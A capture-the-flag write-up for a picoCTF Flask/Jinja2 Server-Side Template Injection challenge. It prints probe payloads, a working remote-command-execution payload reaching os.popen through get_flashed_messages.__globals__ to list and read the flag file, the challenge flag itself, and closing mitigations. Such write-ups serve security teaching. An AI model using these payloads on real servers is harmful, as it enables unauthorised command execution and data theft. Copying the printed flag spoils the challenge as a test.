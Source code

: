 ```yaml
---

````markdown
# picoCTF – Server-Side Template Injection (SSTI) – Writeup

**Category:** Web Exploitation  
**Platform:** picoCTF (picoGym)  
**Challenge link:** [https://play.picoctf.org/practice/challenge/492](https://play.picoctf.org/practice/challenge/492)  
**Vulnerability:** Server-Side Template Injection (Jinja2 / Flask)  
**Flag:** `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}`

---
```


## 📝 Overview
The target web app reflects user input into a server-side template without proper sanitization.  
That allows Jinja2 expressions to be evaluated on the server (SSTI), which we can escalate to arbitrary command execution and read the flag file.

References:  
- [PortSwigger — Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection)  
- [Flask docs — Message Flashing](https://flask.palletsprojects.com/en/stable/patterns/flashing/)

---

## 🔍 Recon & Vulnerability Discovery

### 1) Probe for SSTI
Start with a math probe to see if the template engine evaluates input:

```jinja
{{7*7}}
````

**Result:** The page returns `49`.
This confirms server-side evaluation (Jinja2).

---

### 2) Enumerate exposed objects

Try common objects to gauge context:

```jinja
{{ config }}
{{ request }}
{{ request.args }}
{{ request.headers }}
```

**Observed:**

```
{{ config }} -> <Config {'DEBUG': False, ...}>
{{ request.args }} -> ImmutableMultiDict([])
{{ request.headers }} -> (headers dump)
```

This strongly suggests **Flask + Jinja2** with access to Flask’s request context.

---

## 🚀 Privilege Escalation to RCE

Pivot using the flashing mechanism’s helper, which exposes Python modules:

```jinja
{{ get_flashed_messages.__globals__['os'].popen('ls').read() }}
```

**Result:**

```
__pycache__  app.py  flag  requirements.txt
```

✅ Arbitrary command execution confirmed.

> **Why this works:**
> `get_flashed_messages` is a Flask helper available in the Jinja2 environment.
> The function’s `.__globals__` gives access to its module’s namespace, including imported modules like `os`.
> From there, `os.popen()` executes shell commands.

---

## 🎯 Exfiltrate the Flag

With RCE confirmed, read the `flag` file.

**Method A — via shell:**

```jinja
{{ get_flashed_messages.__globals__['os'].popen('cat flag').read() }}
```

**Method B — via Python I/O:**

```jinja
{{ get_flashed_messages.__globals__['__builtins__'].open('flag').read() }}
```

**Output:**

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}
```

---

## ⚠️ Root Cause

* The app renders **untrusted user input** with `render_template_string`.
* Jinja2 expressions (`{{ ... }}`) are evaluated inside the template context.
* Attackers can reach Python builtins/modules like `os`, enabling arbitrary command execution.

---

## 🔒 Mitigations

* Never render raw user input directly into templates.
* Use context variables safely:

  ```python
  render_template("page.html", user=user)
  ```

  and in template: `{{ user|e }}` (escape input).
* Use sandboxed environments or limit exposed globals.
* Apply strict input validation and sanitization.
* Runtime defenses (e.g., WAFs) may block common SSTI payloads but are not substitutes for secure coding.

---

## 📌 TL;DR

1. Test: `{{7*7}}` → `49` (SSTI confirmed).
2. Enumerate: `{{ config }}`, `{{ request }}`.
3. Exploit: `{{ get_flashed_messages.__globals__['os'].popen('ls').read() }}`.
4. Read flag: `{{ ... 'cat flag' ... }}` → `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}`.

---

### 📚 References

* [PortSwigger Web Security Academy — Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection)
* [Flask docs — Message Flashing](https://flask.palletsprojects.com/en/stable/patterns/flashing/)
* [OnSecurity — SSTI with Jinja2](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

```